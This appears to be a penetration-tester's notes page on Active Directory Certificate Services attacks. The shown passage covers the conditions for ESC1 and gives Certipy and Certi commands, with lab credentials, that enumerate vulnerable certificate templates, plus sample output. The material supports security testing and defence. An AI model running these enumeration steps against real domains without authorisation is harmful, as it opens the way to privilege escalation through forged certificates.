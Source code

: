 ```yaml
---
title: Active Directory Certificate Service
tags:
  - ad
  - activedirectory
  - adcs
---
```

**Table of Content**
* [ESC1](#esc1)
* [ESC4](#esc4)
* [ESC6](#esc6)
* [ESC7](#esc7)
* [ESC8](#esc8)
* [Certifried](#certifried)
* [ADCS References](#adcs-references)
### ESC1

What makes a template vulnerable to ESC1 is when the following requirements are met:

| Attributes                             | Value                             |
| -------------------------------------- | --------------------------------- |
| `msPKI-Certificate-Name-Flag`          | `(0x1) ENROLLEE_SUPPLIES_SUBJECT` |
| `pKIExtendedKeyUsage`                  | Client Authentication             |
| `msPKI-Certificate-Application-Policy` | Client Authentication             |
| Enrollment Rights                      | Domain Users                      |

_Note that you would require one valid user to enroll the certificate_

1. List for available vulnerable templates using [certi](https://github.com/eloypgz/certi)
```bash
# Certipy
certipy find -u peter@range.net -p Password123 -dc-ip 192.168.86.183 -vulnerable -enabled -stdout

# Certi
python3 certi.py list range.net/peter:'Welcome1234' --dc-ip 10.8.0.2 --vuln --enabled

# output should normally be like this
Name: VulnUser
Schema Version: 2
Enroll Services: range-CA01-CA
Vulnerabilities: ESC1 - SAN Impersonation
msPKI-Certificate-Name-Flag: (0x1) ENROLLEE_SUPPLIES_SUBJECT
msPKI-Enrollment-Flag: (0x9) INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
msPKI-RA-Signature: 0
pKIExtendedKeyUsage: Client Authentication, Secure Email, Encrypting File System
msPKI-Certificate-Application-Policy: Client Authentication, Secure Email, Encrypting File System
SD Owner: S-1-5-21-3556610642-5733621-2059236447-500 range\Administrator
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-3556610642-5733621-2059236447-512 range\Domain Admins
      S-1-5-21-3556610642-5733621-2059236447-513 range\Domain Users
      S-1-5-21-3556610642-5733621-2059236447-519 range\Enterprise Admins
[[..snip..]]
```
